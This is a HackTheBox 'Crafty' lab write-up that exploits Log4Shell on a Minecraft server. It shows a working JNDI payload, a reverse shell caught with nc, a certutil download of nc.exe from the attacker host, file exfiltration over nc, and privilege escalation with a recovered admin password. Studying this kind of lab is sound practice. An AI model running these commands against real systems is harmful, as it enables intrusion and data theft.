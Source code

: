 ```yaml
---
title: "Crafty HTB Writeup"
date: 2025-04-26
categories: [CTF, HackTheBox]
tags: [nmap, minecraft, log4j, windows, reverse-shell]
description: "HackTheBox Crafty - exploiting Minecraft Log4Shell vulnerability to gain access."
---
```


Crafty

- NMAP

```bash
nmap 10.129.18.108 -Pn -p- -vv
```

![image1](../resources/7f6f9de8a68c43529a78a3a93da82432.png)

![image2](../resources/ea607668383b4b43b895b8d204e94ced.png)

- Add crafty.htb to /etc/hosts

```bash
echo "10.129.18.108 crafty.htb" | sudo tee -a /etc/hosts
```

![image3](../resources/0c469be9cae94b47a10b31475f4fb648.png)

- Subdomain enumeration:

```bash
wfuzz -u crafty.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crafty.htb" --hl 1
```

- Download a Minecraft player - Tslauncher
- Run the .jar file and enter any username and choose the version
- Then install and enter game

```bash
java -jar TLauncher.jar
```

![image4](../resources/e700db17322b46c894cdb1d2a1e05a43.png)

- Add server

![image5](../resources/abdcb0a295774fb2887aff7fe046ee8c.png)

- Join server

- Here is a POC log4j-shell for this version
[https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

[CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1532s)

<https://github.com/pentesterland/Log4Shell>

- Clone the directory and cd into it

```bash
git clone https://github.com/kozmer/log4j-shell-poc
cd log4j-shell-poc
```

- Download jdk1.8 - and rename the folder to jdk1.8.0_20:

```bash
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz
tar -xvzf jdk-8u181-linux-x64.tar.gz
mv jdk1.8.0_181 jdk1.8.0_20
```

![image6](../resources/ee44a7394d2c49f7a2f48906655ace59.png)

- Set up listener:

```bash
nc -lnvp 4444
```

![image7](../resources/48d8b33e64604a0abe5755c4c35e82a5.png)

- Run python script:

```bash
python3 poc.py
```

![image8](../resources/2a6be0a37b4845468af83680650ab7b3.png)

- Copy the string to send:

```text
${jndi:ldap://10.10.14.38:1389/a}
```

- In the TSlauncher app - Press T to open the chat box  
Paste in the code

![image9](../resources/eb77e1bdc5dd4b79ba3d9f006d4bf750.png)

- We can see the GET requests from the webserver

![image10](../resources/e2de18d6eee94781a36f125acd3b3aaa.png)

- But no shell

- Looking at the code:

![image11](../resources/c1c477ab501e47a4822bc2ebd950f9a0.png)

This is for a linux server.

- We need to change the payload for a windows reverse shell:

![image12](../resources/fb4dc851877d48d6aeb1d9e65e93c531.png)

- Replace `/bin/sh` with `cmd.exe` - The IP and Port forwarding happens in the Java code itself.

- Repeat the steps:
  - Set up listener
  - Run the python poc.py
  - Copy the command
  - Paste into minecraft chat

- Shell

![image13](../resources/dea363b4e8d84b54beb1ae132ff1fbcf.png)

![image14](../resources/f51ba3ae5440494eb2db2edb38035d26.png)

```cmd
dir /Q /A
```

![image15](../resources/946cc9ac07884f1ca9832230a8fac5b5.png)

![image16](../resources/42ec1a1104734f73a6f3b660549a5bf9.png)

- We can't read it here so we need to transfer it to Kali.

- Set up python server:

```bash
python3 -m http.server 8082
```

- Copy over `nc.exe` to Windows:

```cmd
certutil.exe -urlcache -f http://10.10.14.38:8082/nc.exe c:\Users\svc_minecraft\Documents\nc.exe
```

- Using nc we can send and receive:

- On Kali:

```bash
nc -lnvp 4444 > playercounter-1.0-SNAPSHOT.jar
```

- On Windows:

```cmd
c:\Users\svc_minecraft\Documents\nc.exe 10.10.14.38 4444 < playercounter-1.0-SNAPSHOT.jar
```

- **Ctrl+C on Kali** to stop the connection

![image17](../resources/e378fe1871a4436fa736c9c733261a69.png)

![image18](../resources/bc6ff71c4c154b829e107a9bfaa3e30e.png)

![image19](../resources/f208caddc1fd4d66b50701600784f93d.png)

- Reading the Java archive file:

```bash
jar tf playercounter-1.0-SNAPSHOT.jar
```

![image20](../resources/c04022b0930746f18756ef11a8b44b46.png)

- Extract with:

```bash
jar xf playercounter-1.0-SNAPSHOT.jar
```

- That didn't extract anything useful and not all the files were there, as seen above.

- Open the .jar file with a Java Decompiler JD-GUI:

![image21](../resources/c197fd20d73246b592c27752ed51b77d.png)

- That could be a password.

- Open powershell and enter the following to open a new powershell session as Admin:

```powershell
$User = "Administrator"
$Password = ConvertTo-SecureString "<Password>" -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($User, $Password)
Start-Process cmd.exe -Credential $Credential
```

![image22](../resources/e8118c5febff4f6a8cd1940e5ce1b7ed.png)

![image23](../resources/09db6d41587c45dab9dffdd37a7041e0.png)
